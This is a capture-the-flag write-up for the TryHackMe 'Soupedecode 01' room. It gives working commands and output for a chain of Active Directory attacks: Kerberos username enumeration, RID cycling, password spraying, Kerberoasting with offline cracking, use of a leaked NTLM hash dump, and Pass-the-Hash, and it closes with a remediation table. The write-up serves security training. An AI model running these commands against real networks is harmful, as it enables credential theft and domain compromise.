




# Soupedecode 01 — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.65.151.149 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**Soupedecode 01** is a TryHackMe room built around enumerating a small Active Directory domain from nothing more than network access. A full Kerberos pre-authentication username enumeration surfaces a handful of valid accounts, and a RID cycling attack over a guest SMB session expands that into the domain's entire user base, including several service and machine accounts. A password-spraying pass using each username as its own password turns up a working account, which is then used to Kerberoast the domain's service accounts and crack one of their passwords offline. That service account can read a share holding a backup file full of leaked NTLM hashes for the domain's server machine accounts, and one of those hashes is still valid for a Pass-the-Hash login that grants local administrator rights on the domain controller — from there, a semi-interactive shell delivers both flags.

**Attack chain:** Kerberos Pre-Auth User Enumeration → RID Cycling (Guest Session) → Password Spraying (User-as-Pass) → Kerberoasting → SMB Share Enumeration → NTLM Hash Dump Discovery → Pass-the-Hash → RCE (wmiexec) → Root

## 1. Reconnaissance

A full TCP port scan showed a classic Active Directory footprint — Kerberos, LDAP, SMB, and a domain controller announcing itself over RDP's NTLM banner:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.65.151.149

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|_  DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
9389/tcp  open  mc-nmf        .NET Message Framing
Service Info: Host: DC01; OS: Windows
```

The LDAP banner and the RDP NTLM info both point at a single domain controller, so its hostname (`DC01.SOUPEDECODE.LOCAL`) and the domain name (`SOUPEDECODE.LOCAL`) were both added to `/etc/hosts`:

```
echo "10.65.151.149  DC01.SOUPEDECODE.LOCAL SOUPEDECODE.LOCAL" | sudo tee -a /etc/hosts
```

## 2. Domain User Enumeration (Kerberos Pre-Auth & RID Cycling)

Kerberos pre-authentication leaks valid usernames on its own: a request for a username that doesn't exist returns a different error than one for a username that does. `kerbrute`'s `userenum` mode automates that check against a wordlist:

```
kerbrute userenum -d SOUPEDECODE.LOCAL --dc 10.65.151.149 xato-net-10-million-usernames.txt

[+] VALID USERNAME:       admin@SOUPEDECODE.LOCAL
[+] VALID USERNAME:       charlie@SOUPEDECODE.LOCAL
[+] VALID USERNAME:       guest@SOUPEDECODE.LOCAL
[+] VALID USERNAME:       Charlie@SOUPEDECODE.LOCAL
[+] VALID USERNAME:       administrator@SOUPEDECODE.LOCAL
[+] VALID USERNAME:       Admin@SOUPEDECODE.LOCAL
```

A handful of confirmed accounts is a start, but the `guest` account allows a null/guest SMB session — enough to RID-cycle the domain's SID over SAMR and enumerate every object in the directory, not just the specific usernames `kerbrute` happened to guess:

```
nxc smb 10.65.151.149 -u guest -p '' --rid-brute

500: SOUPEDECODE\Administrator (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
...
1000: SOUPEDECODE\DC01$ (SidTypeUser)
1132: SOUPEDECODE\ybob317 (SidTypeUser)
1133: SOUPEDECODE\file_svc (SidTypeUser)
1134: SOUPEDECODE\charlie (SidTypeUser)
...
2065: SOUPEDECODE\FileServer$ (SidTypeUser)
2067: SOUPEDECODE\BackupServer$ (SidTypeUser)
2073: SOUPEDECODE\PC-1$ (SidTypeUser)
...
2162: SOUPEDECODE\PC-90$ (SidTypeUser)
2163: SOUPEDECODE\firewall_svc (SidTypeUser)
...
2168: SOUPEDECODE\admin (SidTypeUser)
```

The brute force resolved far more than the handful of accounts `kerbrute` found — regular domain users, computer accounts (`DC01$`, named servers like `FileServer$`, and a batch of workstations), and a few service accounts ending in `_svc`, on top of the domain's built-in groups. The output was piped to a file and the usernames extracted with `awk`/`cut`/`sort`:

```
nxc smb 10.65.151.149 -u guest -p '' --rid-brute | tee rid_output.txt
```

```
awk '$7=="(SidTypeUser)" {print $6}' rid_output.txt | cut -d'\' -f2 | sort -u > users.txt
```

## 3. Password Spraying (User-as-Pass)

With a real username list in hand, the next thing to try was a classic user-as-own-password spray:

```
kerbrute passwordspray -d SOUPEDECODE.LOCAL --dc 10.65.151.149 --user-as-pass users.txt

[+] VALID LOGIN:  ybob317@SOUPEDECODE.LOCAL:ybob317
```

## 4. Kerberoasting

`ybob317` is a regular domain user — enough to request TGS tickets for every account with a registered SPN (Kerberoasting):

```
impacket-GetUserSPNs SOUPEDECODE.LOCAL/ybob317:ybob317 -dc-ip 10.65.151.149 -request -outputfile spns.txt

ServicePrincipalName    Name            PasswordLastSet
----------------------  --------------  --------------------------
FTP/FileServer          file_svc        2024-06-17 13:32:23.726085
FW/ProxyServer          firewall_svc    2024-06-17 13:28:32.710125
HTTP/BackupServer       backup_svc      2024-06-17 13:28:49.476511
HTTP/WebServer          web_svc         2024-06-17 13:29:04.569417
HTTPS/MonitoringServer  monitoring_svc  2024-06-17 13:29:18.511871
```

Cracking the TGS-REP tickets offline against `rockyou.txt` recovered one of the five passwords:

```
hashcat -m 13100 spns.txt /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$fda89a92b69254d83369e369959d5bdb$433b3213...9afcc3d7185edcad:Password123!!
```

## 5. Share Enumeration & Credential Dump Discovery

`file_svc:Password123!!` is a valid domain account — enough to enumerate SMB shares:

```
nxc smb 10.65.151.149 -u file_svc -p 'Password123!!' --shares

Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
backup          READ            
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share 
Users
```

The non-default `backup` share held a single file:

```
smbclient //10.65.151.149/backup -U file_svc%'Password123!!'
smb: \> get backup_extract.txt
getting file \backup_extract.txt of size 892 as backup_extract.txt
```

`backup_extract.txt` turned out to be a dump of NTLM hashes for ten of the domain's server machine accounts:

```
cat backup_extract.txt
WebServer$:2119:aad3b435b51404eeaad3b435b51404ee:c47b45f5d4df5a494bd19f13e14f7902:::
DatabaseServer$:2120:aad3b435b51404eeaad3b435b51404ee:406b424c7b483a42458bf6f545c936f7:::
CitrixServer$:2122:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
FileServer$:2065:aad3b435b51404eeaad3b435b51404ee:e41da7e79a4c76dbd9cf79d1cb325559:::
MailServer$:2124:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
BackupServer$:2125:aad3b435b51404eeaad3b435b51404ee:46a4655f18def136b3bfab7b0b4e70e3:::
ApplicationServer$:2126:aad3b435b51404eeaad3b435b51404ee:8cd90ac6cba6dde9d8038b068c17e9f5:::
PrintServer$:2127:aad3b435b51404eeaad3b435b51404ee:b8a38c432ac59ed00b2a373f4f050d28:::
ProxyServer$:2128:aad3b435b51404eeaad3b435b51404ee:4e3f0bb3e5b6e3e662611b1a87988881:::
MonitoringServer$:2129:aad3b435b51404eeaad3b435b51404ee:48fc7eca9af236d7849273990f6c5117:::
```

## 6. Pass-the-Hash & Domain Compromise

Machine account passwords rotate automatically (every 30 days by default in AD), so not every leaked hash is still valid. `BackupServer$` had already rotated:

```
nxc smb 10.65.151.149 -u 'BackupServer$' -H 46a4655f18def136b3bfab7b0b4e70e3 --shares
[-] SOUPEDECODE.LOCAL\BackupServer$:46a4655f18def136b3bfab7b0b4e70e3 STATUS_LOGON_FAILURE
```

`FileServer$`, on the other hand, was still good — and NetExec flags it as a local administrator:

```
nxc smb 10.65.151.149 -u 'FileServer$' -H e41da7e79a4c76dbd9cf79d1cb325559 --shares
[+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```

Local admin plus a still-valid NTLM hash is enough for Pass-the-Hash straight into a semi-interactive shell on the domain controller:



From there, both flags sat on their respective desktops:





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Guest/null SMB session allows RID cycling to enumerate the entire domain's user base | Disable the Guest account and restrict anonymous/null SMB enumeration (`RestrictAnonymous`, null session shares) |
| Weak, user-as-pass-style policy let `ybob317` be found via password spraying | Enforce a password policy that rejects passwords equal to (or trivially derived from) the username, and alert on password-spray patterns |
| Kerberoastable service account (`file_svc`) with a weak, dictionary-crackable password | Use Group Managed Service Accounts (gMSA) or long random passwords for SPN-registered accounts, and monitor for TGS-REQ bursts |
| A share (`backup`) exposed a plaintext dump of server machine accounts' NTLM hashes | Never store credential dumps on network shares; restrict share ACLs to the accounts that actually need them |
| A leaked machine account hash (`FileServer$`) remained valid and held local administrator rights | Rotate machine account passwords promptly after any suspected credential exposure, and limit which machine accounts hold local admin |
